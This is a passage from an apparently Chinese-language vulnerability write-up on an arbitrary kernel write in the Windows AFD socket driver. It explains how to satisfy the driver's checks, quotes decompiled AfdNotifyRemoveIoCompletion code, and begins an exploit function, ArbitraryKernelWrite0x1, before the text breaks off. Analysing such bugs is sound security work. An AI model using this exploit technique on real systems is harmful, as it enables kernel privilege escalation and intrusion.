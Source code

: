   
为了过掉检测需要将InputBufferLength设置为0x30，将hCompletion通过未导出函数NtCreateIoCompletion设置为一个句柄，将pdata1设置为一块申请出的空间， counter 设为1。  
  
  
查看AfdNotifyRemoveIoCompletion函数。  
```
dwLen = a3->dwLen;
  if ( !(_DWORD)dwLen )
  {
LABEL_33:
    v8 = 0;
    goto LABEL_34;
  }
 
 if ( a1 )
      ProbeForWrite(a3->pData2, v9, v11);
 
  v8 = IoRemoveIoCompletion(v25, Pool2, v4, (unsigned int)dwLen, &v20, a1, v13, 0);
    if ( !v8 )
    {
      if ( v19 )
      {
        for ( i = 0; i < v20; ++i )
        {
          v15 = &Pool2[32 * i];
          v16 = (char *)a3->pData2 + 16 * i;
          *v16 = *(_DWORD *)v15;
          v16[1] = *((_DWORD *)v15 + 2);
          v16[3] = *((_DWORD *)v15 + 6);
          v16[2] = *((_DWORD *)v15 + 4);
        }
      }
      *(_DWORD *)a3->pPwnPtr = v20;
      goto LABEL_33;
    }
```  
  
  
将dwLen = 0x1设为1, pData2设为一块申请出的内存，为了使IoRemoveIoCompletion返回0需要使用未导出函数NtSetIoCompletion。  
  
  
最后整合到一起就是：  
```
int ArbitraryKernelWrite0x1(void* pPwnPtr)
{
    int ret = -1;
    HANDLE hCompletion = INVALID_HANDLE_VALUE;
    IO_STATUS_BLOCK IoStatusBlock = { 0 };
    HANDLE hSocket = INVALID_HANDLE_VALUE;
    UNICODE_STRING ObjectFilePath = { 0 };
    OBJECT_ATTRIBUTES ObjectAttributes = { 0 };
    AFD_NOTIFYSOCK_DATA Data = { 0 };
    HANDLE hEvent = NULL;
    HANDLE hThread = NULL;
 
    // Hard-coded attributes for an IPv4 TCP socket
    BYTE bExtendedAttributes[] =
    {
        0x00, 0x00, 0x00, 0x00, 0x00, 0x0F, 0x1E, 0x00, 0x41, 0x66, 0x64, 0x4F, 0x70, 0x65, 0x6E, 0x50,
        0x61, 0x63, 0x6B, 0x65, 0x74, 0x58, 0x58, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x02, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x60, 0xEF, 0x3D, 0x47, 0xFE
    };
```
